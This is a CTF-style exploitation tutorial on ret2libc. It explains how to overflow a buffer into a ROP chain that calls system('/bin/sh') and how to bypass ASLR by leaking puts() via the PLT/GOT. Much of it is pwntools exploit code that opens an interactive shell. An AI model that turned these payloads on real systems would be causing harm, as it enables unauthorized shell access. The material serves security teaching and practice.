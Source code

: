 ```yaml
---
description: Using a buffer overflow to call the libc system("/bin/sh") function
---
```


# ret2libc

## Theory

The idea of ret2libc is returning to a function defined in the libc library. A common one is the `system()` function allowing you to execute shell commands and with the `"/bin/sh"` argument an interactive system shell. Just like calling a function with arguments as in [ret2win.md](ret2win.md "mention"), we jump to this `system()` function with a string argument found in the same libc binary.&#x20;

This technique is really useful when there is no `win()` function to jump to, as this `system()` function is essentially the same as a win function, but not specific to any binary.&#x20;

## Exploit

To call a function with a string argument, we need two things. The address of the function, and the address to the string that will be the argument.&#x20;

If ASLR is disabled, this first part is simple. We just need the address of the `system()` function which can be found if we have a copy of the libc binary the remote server uses. It may be given in the challenge, or it may not. If it is not given, you can try to find it by leaking addresses as explained later in [#bypassing-aslr](ret2libc.md#bypassing-aslr "mention") and looking them up in the [libc database](https://libc.blukat.me/) to find any matches.&#x20;

Then we need the string, which can be easily found using PwnTools. Every libc version has a "/bin/sh" string inside by default, which we can abuse. The code will look something like this:

```renpy
libc = ELF("./libc.so.6")

rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
```

After sending the payload, you can get a nice interactive shell with the `p.interactive()` function:

```renpy
p.sendline(payload)  # Trigger shell

p.interactive()  # Make shell interactive in terminal
```

## Bypassing ASLR

Most often Address Space Layout Randomization (ASLR) is enabled on the remote machine (and likely yours too). You can check if it is by reading the `/proc/sys/kernel/randomize_va_space` file:

* `0`: Disables ASLR. In this mode, the kernel does not randomize the location of the stack, shared libraries, or executable code.
* `1`: Enables ASLR for user-space applications only. The kernel randomizes the location of the **stack**, shared **libraries**, and **executable code** for user-space applications.
* `2`: Enables ASLR for all processes, including the kernel itself. In addition to randomizing the location of user-space applications, the kernel also randomizes the location of the kernel stack, heap, and other kernel components.

Only `root` should be able to write to this file and change the setting. When enabled, it makes many loaded addresses randomized on each run of the binary, making it impossible to guess beforehand what they will be.

Simply jumping to the `system()` function won't work here, because we need to know what address to jump to. But to make it work again, we simply need to leak any libc address, because all the addresses will still be the same **relative** to each other. Leaking such an address can be done in a few different ways, but one common method is using the Procedure Linkage Table (PLT) and the Global Offset Table (GOT).&#x20;

We want to somehow leak the address of any libc function, which can be done by **printing** the value. If the original binary uses any `puts()`, `printf()` or similar functions, those functions will be saved in the PLT. The address to this table is not randomized by ASLR, so we can use it to print the value at any address we want. The GOT just happens to store the randomized addresses to used libc functions, which can be printed using this method. The code looks something like this:

```renpy
elf = ELF("./binary")

rop = ROP(elf)
rop.puts(elf.got["puts"])
```

This would print some binary data being the leaked address to the libc `puts()` function, but then it likely crashes the program because we corrupted the flow. But since we control the return addresses, we can simply restart the program after we leaked the address, now with the knowledge of this leaked address!

<pre class="language-renpy"><code class="lang-renpy">rop = ROP(elf)
rop.puts(elf.got["puts"])
<strong>rop.main()
</strong>
payload = flat({
    OFFSET: rop.chain()
})
</code></pre>

After sending this payload, the first bytes you will receive are the address we are looking for. After that, the program restarts and we can do the buffer overflow again but now having bypassed ASLR by leaking a libc address. We can extract the address from the printed binary data like so:

```renpy
p.sendline(payload)

# Note: Try some different things here locally for your program to find a consistent 
#       way to extract the address. Here the first 6 bytes are taken
r = p.recv(6)
leak = u64(r.ljust(8, b"\x00"))  # Unpack data
success("Leaked puts(): %#x", leak)
```

Finally, now that we have leaked the address we can calculate the relative offset with where the `puts()` function would normally be in libc:

```renpy
libc = ELF("./libc.so.6")

libc.address = leak - libc.symbols["puts"]
```

The above line of code will set the base address of libc making any future calls like `rop.system()` work automatically.&#x20;

As the program restarts, now it becomes the same as in [#exploit](ret2libc.md#exploit "mention"). We just need to call the `system()` function with the `"/bin/sh"` string:

```renpy
rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
p.sendline(payload)
p.interactive()
```

Putting it all together results in an example script like the following:

{% file src="../.gitbook/assets/ret2libc.py" %}
An example script of ret2libc bypassing ASLR by leaking puts()
{% endfile %}

